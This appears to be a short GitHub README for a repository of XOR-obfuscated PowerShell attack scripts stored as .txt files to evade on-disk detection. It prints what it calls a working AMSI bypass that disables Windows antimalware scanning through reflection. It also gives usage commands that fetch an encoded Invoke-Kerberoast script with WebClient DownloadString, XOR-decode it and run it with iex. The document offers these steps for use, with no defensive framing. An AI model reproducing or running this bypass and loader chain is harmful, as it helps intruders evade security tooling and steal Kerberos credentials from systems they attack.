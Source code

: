 # PS-Scripts-Obfuscated
Powewrshell scripts xor encoded and convereted to .txt to avoid on disk detction. 


## The below is currently a working AMSI bypass.   
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```


## Usage: Run the powershell scripts using the below. 

```
PS C:\Users\User> $file = "C:\Users\User\Desktop\temp\Invoke-Kerberoast.txt"
PS C:\Users\User>
PS C:\Users\User> $enc = [system.Text.Encoding]::UTF8
PS C:\Users\User> $file = ((New-Object Net.Webclient).DownloadString($file))
PS C:\Users\User> $data = $enc.GetBytes($file)|%{$_-bXor0x11}
PS C:\Users\User> iex ([System.Text.Encoding]::ASCII.GetString($data))
```
